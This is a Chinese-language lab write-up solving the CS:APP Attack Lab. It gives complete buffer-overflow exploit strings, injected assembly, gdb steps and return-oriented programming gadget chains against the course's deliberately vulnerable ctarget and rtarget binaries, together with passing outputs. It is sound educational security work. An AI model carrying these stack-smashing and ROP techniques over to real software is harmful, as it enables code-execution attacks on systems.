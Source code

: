 ## 前期准备
和Bomb-lab一样，我们反汇编两个可执行文件，得到汇编代码。
``` bash
$ objdump -d ctarget > ctarget.asm
$ objdump -d rtarget > rtarget.asm
```
## PART I: Code Injection Attacks
### level 1
这一level和书上3.10.3的例子是一样的，由于没有进行目标缓冲区的大小界定，可能会冲击掉栈的值，而这题的目标就是让我们在getbuf返回的时候调用的是touch1函数。
几个主要的函数如下：
``` c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}

unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}

void touch1()
{
    vlevel = 1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

根据反汇编，getbuf函数如下，其申请了0x28大小的栈。
``` x86asm
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```
而Gets函数基本上是从标准输入读入字符串到指定的地址，具体的代码就不粘贴了，大家可以参考反汇编的代码，和书本上的gets函数基本差不多（就多了一个存储读入的字符的功能，save_char和save_term）。

可以发现，要想冲击掉getbuf函数的返回地址，首先我们需要填满0x28的缓冲区，然后将touch1的地址填入到返回地址中，而touch1的地址是4017c0，根据小端法，在之后填充`c0 17 40`，我们填入以下数据即可，将以下数据写入answer文件夹下level1文件中：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40
```
然后我们试一试（-q是取消向cmu的服务器发送成绩，我们是自学，自然访问不了其服务器）：
``` bash
$ ./hex2raw -i answer/level1 | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40
```
用图表示level1如下所示：
<div align=center><img src="./img/attack-lab-ph1-level1.jpg" width = 70% height = 70% /></div>

### level 2
这个阶段的解题思路和上面是类似的，我们还是需要拦截程序流，跳转到touch2函数，但是还需要满足touch2的输入val=cookie（0x59b997fa），如下：
``` c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
  	   printf("Touch2!: You called touch2(0x%.8x)\n", val);
  	   validate(2);
    } else {
  	   printf("Misfire: You called touch2(0x%.8x)\n", val);
  	   fail(2);
    }
    exit(0);
}
```
思路如下：
* 将正常的返回地址设置为注入代码的地址，本次直接从栈顶注入，所以将返回地址设置为`%rsp`的值；
* 将cookie值移入到`%rdi`；
* 想要调用touch2，又不能直接使用call、jmp指令，只能使用ret改变当前指令寄存器的只想地址，在此之前将touch2的地址压栈即可。

注入代码为：
``` x86asm
/* level2-inject.s */
movq $0x59b997fa, %rdi  # set input val cookie
pushq $0x4017ec         # touch2 address
ret
```
执行以下操作
``` x86asm
$ gcc -c level2-inject.s
$ objdump -d level2-inject.o

level2-inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq    
```
接下来，利用gdb，找到调用getbuf时`%rsp`的地址。
``` bash
$ gdb ctarget
(gdb) b getbuf
Breakpoint 1 at 0x4017a8
(gdb) r -q
Starting program: /home/topeet/smb_share/workspace/CSAPP/CSAPP-Labs/labs/attack-lab/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, 0x00000000004017a8 in getbuf ()
(gdb) stepi 2
0x00000000004017af in getbuf ()
(gdb) i registers rsp
rsp            0x5561dc78	0x5561dc78
(gdb) 
```
所以我们填充注入代码如下，将以下数据写入answer文件夹下level2文件中：
```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55
```
然后执行：
``` bash
$ hex2raw -i answer/level2 | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 
```
用图表示level2如下所示，我们应该庆幸作者预留了40个byte大小的位置，因为当开始执行从栈顶注入的代码时，栈指针为`0x5561dca0`，此时执行`pushq $0x4017ec`时，栈指针会变为`0x5561dc98`，如果预留了小于24个字节大小时，执行`pushq $0x4017ec`时会冲掉`0x5561dc80`，就无法到`retq`语句了。
<div align=center><img src="./img/attack-lab-ph1-level2.jpg" width = 70% height = 70% /></div>

### level 3
这个level考察的依然是代码注入，其函数如下：
``` c
void touch3(char *sval){
    vlevel = 3;
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}

/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```
还是需要调用touch3，但是这次传入的参数是一个字符串，同时函数内部用了另外一个函数进行比较，这次要比较的是`"59b997fa"`这个字符串。

但是我们不能将字符串放在getbuf的栈帧，因为hexmatch函数会开辟110个字节的栈帧大小，肯定会冲掉原栈帧，所以我们需要将字符串放在安全的地址，也就是test的栈帧。我们知道，test函数的返回地址是`0x5561dca0`，那么其运行时栈顶地址就是`0x5561dca8`。我们要做的就是把字符串存在这个地址，并将这个地址送到%rdi中，然后将touch3的首地址压栈，虽然返回，所以我们注入的汇编代码就是：
``` x86asm
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```
执行以下操作
``` bash
$ gcc -c level3-inject.s 
$ objdump -d level3-inject.o 

level3-inject.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0: 48 c7 c7 a8 dc 61 55  mov    $0x5561dca8,%rdi
   7: 68 fa 18 40 00        pushq  $0x4018fa
   c: c3                    retq   
```
之后我们可以将字符串`"59b997fa"`转换为ascii的十六进制表示`35 39 62 39 39 37 66 61 00`，千万不能忘了最后`'\0'`表示字符串结尾。

所以我们填充注入代码如下，将以下数据写入answer文件夹下level3文件中：
```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00
```
结果如下所示：
``` bash
$ ./hex2raw < answer/level3 | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 
```
用图表示如下所示：
<div align=center><img src="./img/attack-lab-ph1-level3.jpg" width = 70% height = 70% /></div>

## PART II: Return-Oriented Programming
代码注入在这个部分可能就不好使了，因为现代编译器和操作系统实现了许多机制，以避免遭受缓冲区溢出的攻击，如writeup所说，其采取了以下方式去阻挠代码注入攻击：
1. 栈随机化：栈的位置在每次运行时都有变化，使得无法确定注入的代码将位于何处；
2. 限制可执行代码区域：会将保存在栈的内存部分标记为不可执行，因此将程序注入到栈内，也将会爆出segmentation fault。

然而，我们可以通过执行现有代码而不是注入新代码来在程序中完成有用的事情，这种方式成为ROP(Return-Oriented Programming)。其策略是在现有程序中标识由一个或多个指令以及指令ret组成的字节序列，这种段称为*gadget*，如下图所示：
<div align=center><img src="./img/gadget.JPG" width = 50% height = 50% /></div>

后续writeup还举了一个例子，感兴趣的同学可以去看看，我们直接跳到level2。

### level 2
这题和第一部分的level2要求是一样的，就是执行touch2，并且根据writeup上的提示：
1. 所需的*gadgets*在start_farm到mid_farm之间；
2. 只需要两个*gadget*；
3. popq指令可以将数值从栈中弹出数据，所以攻击字符串应该是地址和数据的组合。

思路和之前还是一样：
1. 将cookie放到%rdi，这需要mov命令；
2. 但是所给的mov指令只有从一个寄存器到另一个寄存器的，没有直接mov内存（栈）到寄存器的；
3. 所以需要pop指令将栈中cookie弹出到一个寄存器，然后再用mov指令移动到%rdi中；
4. 或者说，我们能直接pop将cookie弹出到%rdi也行；

首先观察下表，因为在start_farm到end_farm之间没有找到`5f`这条指令，所以排除上述第4条可能性。
<div align=center>
  <div style="color:orange;
    display: inline-block;
    color: #999;
    padding: 2px;">表A</div>
  <br>
  <img src="./img/popq-gadgets.JPG" width = 70% height = 70% />  
</div>

观察下表，能mov到%rdi的指令是最后一列：
<div align=center>
  <div style="color:orange;
    display: inline-block;
    color: #999;
    padding: 2px;">表B</div>
  <br>
  <img src="./img/movq-gadgets.JPG" width = 100% height = 100% />
</div>

经过排查，只有满足以下指令的`48 89 c7`和`58`字段被找到：
``` x86asm
popq %rax       # 58
movq %rax, %rdi # 48 89 c7
```
其中让人满意的分别是，因为`90`指令是`nop`，没有操作。
``` x86asm
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3                    retq

00000000004019c3 <setval_426>:
  4019c3: c7 07 48 89 c7 90     movl   $0x90c78948,(%rdi)
  4019c9: c3                    retq

00000000004019a7 <addval_219>:
  4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
  4019ad: c3

00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3
```

我们给出四种答案的填充，分别验证如下：
1. 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-1 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

2. 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-2 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
3.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-3 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
4.
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```
``` bash
$ ./hex2raw -i answer/part2-level2-4 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 C5 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```

其实就是排列组合两行地址，图我们就不画那么多了，针对最后一种情况画个图，如下所示：
<div align=center><img src="./img/attack-lab-ph2-level2.jpg" width = 70% height = 70% /></div>

### level 3
在这一阶段中，我们需要做的就是把字符串的起始地址传送到%rdi，然后调用touch3函数。
因为每次栈都是随机的，所以无法直接用地址来索引字符串的位置，只能用栈顶地址+偏移量来索引字符串的起始地址。而从farm中我们可以找到一个*gadget*来实现两个寄存器值的相加`lea (%rdi,%rsi,1),%rax`。

解题思路：
1. 首先获取%rsp的值，传送到%rdi；
2. 其次获取字符串的偏移量，传送到%rsi；
3. 调用`lea (%rdi,%rsi,1),%rax`，将字符串首地址传送到%rax；
4. 利用mov指令将%rax传送到%rdi；
5. 调用touch3函数。

步骤如下：
1 获取%rsp的值：
参考表B，在farm中寻找到的符合源操作寄存器为%rsp的只有指令`movq %rsp, %rax`的指令字节`40 89 e0`，符合的有下图所示的两种，所以第一步的gadget地址为：0x401a06或者0x401aad。
``` x86asm
0000000000401a03 <addval_190>:
  401a03: 8d 87 41 48 89 e0     lea    -0x1f76b7bf(%rdi),%eax
  401a09: c3                    retq

0000000000401aab <setval_350>:
  401aab: c7 07 48 89 e0 90     movl   $0x90e08948,(%rdi)
  401ab1: c3                    retq
```

2 将%rax的内容传送到%rdi：
`movq %rax, %rdi`的指令字节`40 89 c7`，符合的有两个，所以第二步的地址为：0x4019a2或者0x4019c5。
``` x86asm
00000000004019a0 <addval_273>:
  4019a0: 8d 87 48 89 c7 c3     lea    -0x3c3876b8(%rdi),%eax
  4019a6: c3                    retq

00000000004019c3 <setval_426>:
  4019c3: c7 07 48 89 c7 90     movl   $0x90c78948,(%rdi)
  4019c9: c3 
```

3 利用pop指令弹出偏移量：
查询表B，只有`popq %rax`的指令`58`符合要求，符合的有以下两个，所以第三步的地址为：0x4019ab或者0x4019cc。
``` x86asm
00000000004019a7 <addval_219>:
  4019a7: 8d 87 51 73 58 90     lea    -0x6fa78caf(%rdi),%eax
  4019ad: c3

00000000004019ca <getval_280>:
  4019ca: b8 29 58 90 c3        mov    $0xc3905829,%eax
  4019cf: c3
```

4 将%rax内容传送到%rsi：
查询表B，`mov %rax, %rsi`指令为`48 89 c6`，这个在farm中不存在，可以发现，以%rax为源寄存器的movq指令，只有`mov %rax, %rdi`，但是此时rdi的值已经是栈地址了，所以不能动，那只能打movl的主意了。
<div align=center>
  <div style="color:orange;
    display: inline-block;
    color: #999;
    padding: 2px;">表C</div>
  <br>
  <img src="./img/movl-gadgets.JPG" width = 100% height = 100% />
</div>

  1) 如上表所示，在farm中，以%eax为源寄存器的操作码，且不冲击%edi的只有`movl %eax, %edx`的操作码`89 c2`了，所以满足这一小步的地址：0x4019dd。
``` x86asm
00000000004019db <getval_481>:
  4019db: b8 5c 89 c2 90        mov    $0x90c2895c,%eax
  4019e0: c3
```
  2) 不能忘记我们的目标是%rsi/%esi，再查表B和C，以%rdx/%edx为源的操作码只有`movl %edx, %ecx`的操作码`89 d1`，符合的地址：0x401a70（这里后面跟着字节91，想必也是无用的字节？）。
``` x86asm
0000000000401a6e <setval_167>:
  401a6e: c7 07 89 d1 91 c3     movl   $0xc391d189,(%rdi)
  401a74: c3
```
  3) 再查表B和C，以%rcx/%ecx为源的操作码只有`movl %ecx, %esi`的操作码`89 ce`，且目标正是%esi，符合的地址：0x401a13。
``` x86asm
0000000000401a11 <addval_436>:
  401a11: 8d 87 89 ce 90 90     lea    -0x6f6f3177(%rdi),%eax
  401a17: c3
```

5 调用`lea (%rdi,%rsi,1),%rax`，将字符串首地址传送到%rax
这一步即直接使用以下地址即可：0x4019d6。
``` x86asm
00000000004019d6 <add_xy>:
  4019d6: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  4019da: c3                    retq   
```

6 利用mov指令将%rax传送到%rdi（同步骤2）

7 计算偏移量
执行步骤1时，%rsp所指位置已经指向了步骤2的位置，根据以上分析，从步骤三开始需要指令地址占据栈区的有6个，偏移量占据一行，touch3占据一行，所以中间至少需要隔绝8行（一行64位），然后将字符串首地址放在之上，即偏移量为`9 * 8 = 72`，所以填写十六进制0x48。

根据以上分析，我们可以画出一种解法的图如下所示：
<div align=center><img src="./img/attack-lab-ph2-level3.jpg" width = 70% height = 70% /></div>

所以我们填充的数字如下所示：
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00
```
测试结果如下：
``` bash
$ ./hex2raw -i answer/part2-level3 | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
  user id bovik
  course  15213-f15
  lab attacklab
  result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 
```
当然也有其他的一些正确结果，根据以上步骤里的随机组合就好了，这里就不验证了。

## 总结
真个lab做下来，受益良多，对于栈有了更深的理解，认识到了缓冲区溢出可以造成的严重后果，写出更安全的代码需要注意的点。
